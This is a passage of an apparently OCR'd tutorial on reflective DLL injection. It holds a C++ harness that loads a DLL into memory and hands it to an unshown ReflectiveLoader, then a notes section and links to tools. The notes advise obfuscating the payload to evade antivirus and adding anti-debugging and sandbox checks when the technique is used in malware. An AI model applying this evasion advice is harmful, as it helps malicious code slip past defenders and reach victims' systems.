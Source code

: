 ```cpp
}

int main() {
    // Example: load a DLL from a file into memory
    HANDLE hFile = CreateFile(L"example.dll", GENERIC_READ, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
    
    if (hFile == INVALID_HANDLE_VALUE) {
        std::cerr << "Error opening file." << std::endl;
        return -1;
    }
    
    DWORD fileSize = GetFileSize(hFile, NULL);
    unsigned char* dllBuffer = new unsigned char[fileSize];
    
    DWORD bytesRead;
    ReadFile(hFile, dllBuffer, fileSize, &bytesRead, NULL);
    CloseHandle(hFile);
    
    // Reflectively load the DLL from memory
    ReflectiveLoader(dllBuffer, fileSize);
    
    // Cleanup
    delete[] dllBuffer;
    
    return 0;
}
```

# Challenges and Considerations
- AV Detection: Even though reflective DLL injection bypasses disk-based detection, modern AV solutions may use heuristics and memory scanning to detect this technique. Obfuscating the DLL and its injection method can help avoid detection.
- Relocations and Imports: Reflective DLL injection requires resolving all imports and performing relocations, which can be complex. If the DLL is not position-independent, relocating it becomes necessary.
- Anti-Debugging and Anti-Analysis: If you’re implementing this technique in malware, adding anti-analysis techniques (such as detecting debuggers or sandboxes) would increase your chances of avoiding detection.

# Resources and Tools

1. Stephen Fewer’s Reflective DLL Injection Project: This is one of the most popular and well-documented projects for Reflective DLL

 Injection. It provides a fully functional implementation and is a great starting point.
   - [Reflective DLL Injection GitHub](https://github.com/stephenfewer/ReflectiveDLLInjection)

2. Windows API Documentation: For reference on how to use Windows API functions, check the official documentation.
   - [Windows API Reference](https://docs.microsoft.com/en-us/windows/win32/api/)

3. Tools: Tools like `Process Hacker` and `x64dbg` are essential for debugging and analyzing the behavior of your reflective DLL injector.
